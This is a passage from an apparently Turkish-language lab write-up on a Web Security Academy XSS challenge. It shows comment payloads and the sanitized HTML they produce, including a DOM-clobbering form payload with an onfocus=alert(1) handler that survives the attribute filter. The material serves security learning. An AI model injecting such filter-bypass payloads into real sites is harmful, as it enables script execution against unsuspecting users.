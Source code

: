 ![Untitled](Web-Security-0x0B-Web-Security-Academy’de-XSS-Cozm-356d50d1b933477eb37796d3f6bc53d8/Untitled-4.png)

- Burada yorumu gönderdikten sonra oluşan yorumumuzu inspect element ile inceleyebiliriz. Bu kısmı incelediğimizde izin verilmeyen attribute’ların silindiğini kolaylıkla fark edebiliriz.

```python
<p>mdisec <form id="x"> aleykumselam</form></p><p></p></section>
```

- Burada farklı bir ayrıntı yöntem de mevcut. Örneğin bu şekilde bir yorum yazdığımızda işler değişmektedir.

```python
mdisec <form onfocus=alert(1)><input id=attributes>Click me
```

- Böyle bir yorum girdiğimizde de inspect element ile yorumu incelersek artık onfocus attribute’unun silinmediğini görebiliriz.

```python
<p>mdisec <form onfocus="alert(1)"><input>Click me</form></p>
```
